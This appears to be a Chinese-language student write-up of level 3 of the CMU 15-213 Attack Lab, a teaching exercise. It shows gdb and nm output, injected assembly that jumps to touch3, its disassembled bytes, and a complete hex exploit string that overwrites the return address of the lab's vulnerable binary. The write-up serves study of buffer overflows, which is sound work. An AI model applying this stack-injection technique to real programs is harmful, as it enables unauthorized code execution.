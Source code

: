 利用test的栈就行，test有8个栈帧的空间，足够用了

查询必要的信息
```shell

ubuntu@VM-0-8-ubuntu:~/learnning_project/CMU-15213/src/Attack-Lab$ nm ./ctarget | grep touch3
00000000004018fa T touch3

 1│ Dump of assembler code for function test:
 2│ visible.c:
 3│ 90      in visible.c
 4│    0x0000000000401968 <+0>:     sub    $0x8,%rsp
 5│
 6│ 91      in visible.c
 7│ 92      in visible.c
 8├──> 0x000000000040196c <+4>:     mov    $0x0,%eax
(gdb) x/x $rsp
0x5561dca8:     0x0000000000000009
```

这里通过两个rsp的值相减，可以发现相差的rsp值在test与getbuf之间足足有48个栈帧。可见地址实际上由于padding的原因是补齐了4个字节的。

开始构造注入代码
```assembly
main:
	movq	0x5561dca8, %rdi
	pushq	$0x4018fa
	ret
```

然后相同的指令
```shell
ubuntu@VM-0-8-ubuntu:~/learnning_project/CMU-15213/src/Attack-Lab$ gcc -c injection.l3.s 
ubuntu@VM-0-8-ubuntu:~/learnning_project/CMU-15213/src/Attack-Lab$ objdump -d injection.l3.o

injection.l3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <main>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          push   $0x4018fa
   c:   c3                      ret  
```

然后构造exploit string，注意这里的排序，是顺序排的，从低到高。`strcmp`会解决这个字符串没有结尾的问题

```hex
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 DC 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```
